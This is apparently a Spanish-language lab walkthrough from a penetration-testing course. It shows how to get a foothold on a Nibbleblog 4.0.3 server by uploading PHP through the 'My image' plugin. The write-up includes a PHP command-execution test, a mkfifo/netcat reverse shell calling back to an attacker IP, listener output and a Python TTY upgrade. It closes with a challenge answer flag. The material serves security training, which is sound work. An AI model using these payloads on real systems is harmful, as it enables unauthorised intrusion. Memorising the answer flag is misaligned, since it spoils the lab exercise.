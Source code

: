 Ahora que hemos iniciado sesión en el portal de administración, debemos intentar convertir este acceso en ejecución de código y, en última instancia, obtener acceso de shell inverso al servidor web. Sabemos que un módulo Metasploit probablemente funcionará para esto, pero enumeremos el portal de administración para otras vías de ataque. Mirando un poco alrededor, vemos las siguientes páginas:

| Pagina | Contenido|
| -- | -- |
|`Publish`| hacer una nueva publicación, publicación de video, publicación de citas o nueva página. Podría ser Interesante. |
| `Comments`| no muestra comentarios publicados | 
| `Manage`| Nos permite administrar publicaciones, páginas y categorías. Podemos editar y eliminar categorías, no demasiado interesantes.|
| `Settings` | Desplazarse hacia abajo confirma que la versión vulnerable 4.0.3 está en uso. Hay varias configuraciones disponibles, pero ninguna nos parece valiosa. |
| `Themes` | Esto nos permite instalar un nuevo tema de una lista preseleccionada. |
| `Plugins` | Nos permite configurar, instalar o desinstalar complementos. El complemento `My image` nos permite cargar un archivo de imagen. ¿Se podría abusar de esto para cargar código `PHP` potencialmente? |

Intentar crear una nueva página e incrustar código o cargar archivos no parece ser el camino. Echemos un vistazo a la página de plugins.

![](https://academy.hackthebox.com/storage/modules/77/plugins.png)

Intentemos usar este plugin para cargar un fragmento de código `PHP` en lugar de una imagen. El siguiente fragmento se puede usar para probar la ejecución del código.

~~~
<?php system('id'); ?>
~~~

Guarde este código en un archivo y luego haga clic en el botón `Browse` y cárguelo.

![](https://academy.hackthebox.com/storage/modules/77/upload.png)

Recibimos un montón de errores, pero parece que el archivo puede haberse cargado.

~~~
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
~~~

Ahora tenemos que averiguar dónde se cargó el archivo si fue exitoso. Volviendo al directorio de resultados de fuerza bruta, recordamos el directorio `/content`. Debajo de esto, hay un directorio de `plugins` y otro subdirectorio para `my_image`. La ruta completa se encuentra en `http://<host>/nibbleblog/content/private/plugins/my_image/`. En este directorio, vemos dos archivos, `db.xml` e `image.php`, con una fecha de última modificación reciente, lo que significa que nuestra carga fue exitosa. Comprobemos y veamos si tenemos ejecución de comandos.

~~~
Juceco@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
~~~

¡lo hicimos! Parece que hemos ganado la ejecución remota de código en el servidor web y el servidor Apache se está ejecutando en el contexto de usuario de `nibbler`. Modifiquemos nuestro archivo PHP para obtener un shell inverso y comencemos a hurgar en el servidor.

Editemos nuestro archivo PHP local y volvamos a subirlo. Este comando debería darnos un shell inverso. Como se mencionó anteriormente en el Módulo, existen muchas hojas de trucos de shell inverso. Algunos excelentes son [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) y [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

Usemos el siguiente shell inverso de `Bash` de una sola línea y agréguelo a nuestro script `PHP`.

~~~
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
~~~

Agregaremos nuestra dirección IP VPN `tun0` en el marcador de posición `<ATTACKING IP>` y un puerto de nuestra elección para `<LISTENING PORT>` para capturar el shell inverso en nuestro oyente `netcat`. Vea el script `PHP` editado a continuación.

~~~
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
~~~

Subimos de nuevo el archivo e iniciamos un `netcat` listener en nuestra terminal:

~~~
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
~~~

usamos cURL para página de la imagen nuevamente o navegamos hasta ella en `Firefox` en http:///nibbleblog/content/private/plugins/my_image/image.php para ejecutar el shell inverso.

~~~
Juceco@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
~~~

Además, tenemos una reverse shell. Antes de continuar con la enumeración adicional, actualicemos nuestro shell a un shell "más agradable" ya que el shell que capturamos no es un TTY completamente interactivo y los comandos específicos como `su` no funcionarán, no podemos usar editores de texto, tabulador no funciona, etc. Esta [publicación](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) explica el problema con más detalle, así como una variedad de formas de actualizar a un TTY completamente interactivo. Para nuestros propósitos, usaremos una sola línea de `Python` para generar un pseudo-terminal para que los comandos como `su` y `sudo` funcionen como se discutió anteriormente en este módulo.


Code: `Bash`
~~~
python -c 'import pty; pty.spawn("/bin/bash")'
~~~

Pruebe las diversas técnicas para actualizar a un TTY completo y elija la que mejor se adapte a sus necesidades. ¡Nuestro primer intento falla porque parece que falta `Python2` en el sistema!

~~~
$ python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
~~~

Sin embargo, tenemos `Python3`, que funciona para llevarnos a un shell más amigable escribiendo `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Navegando a `/home/nibbler`, encontramos la flag `user.txt` así como un archivo zip `personal.zip`.

~~~
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
~~~

### RETO
Obtenga un foothold en el objetivo y envíe la bandera user.txt

R: 79c03865431abf47b90ef24b9695e148